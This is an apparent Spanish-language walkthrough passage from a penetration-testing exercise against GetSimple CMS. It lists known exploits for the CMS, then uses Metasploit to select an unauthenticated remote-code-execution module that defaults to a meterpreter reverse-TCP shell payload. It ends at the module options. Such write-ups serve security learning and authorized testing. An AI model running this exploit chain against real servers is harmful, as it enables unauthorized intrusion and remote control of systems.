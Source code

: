```js
Getsimple CMS 3.2.1 - Arbitrary File Upload                                       | php/webapps/25405.txt
GetSimple CMS 3.3.1 - Cross-Site Scripting                                        | php/webapps/43888.txt
Getsimple CMS 3.3.1 - Persistent Cross-Site Scripting                             | php/webapps/32502.txt
Getsimple CMS 3.3.10 - Arbitrary File Upload                                      | php/webapps/40008.txt
GetSimple CMS 3.3.13 - Cross-Site Scripting                                       | php/webapps/44408.txt
GetSimple CMS 3.3.16 - Persistent Cross-Site Scripting                            | php/webapps/49726.py
GetSimple CMS 3.3.16 - Persistent Cross-Site Scripting (Authenticated)            | php/webapps/48850.txt
GetSimple CMS 3.3.4 - Information Disclosure                                      | php/webapps/49928.py
GetSimple CMS Custom JS 0.1 - Cross-Site Request Forgery                          | php/webapps/49816.py
Getsimple CMS Items Manager Plugin - 'PHP.php' Arbitrary File Upload              | php/webapps/37472.php
GetSimple CMS My SMTP Contact Plugin 1.1.1 - Cross-Site Request Forgery           | php/webapps/49774.py
GetSimple CMS My SMTP Contact Plugin 1.1.2 - Persistent Cross-Site Scripting      | php/webapps/49798.py
GetSimple CMS Plugin Multi User 1.8.2 - Cross-Site Request Forgery (Add Admin)    | php/webapps/48745.txt
GetSimpleCMS - Unauthenticated Remote Code Execution (Metasploit)                 | php/remote/46880.r
```

Asi que me decido en desplegar* metasploit* con el comando *msfconsole* y vuelvo a buscar *getsimple*.

```js
msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE
```

Elijo la segunda opción que es la versión más actual y configuro el exploit.

```js
msf6 > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show options

Module options (exploit/multi/http/getsimplecms_unauth_code_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
```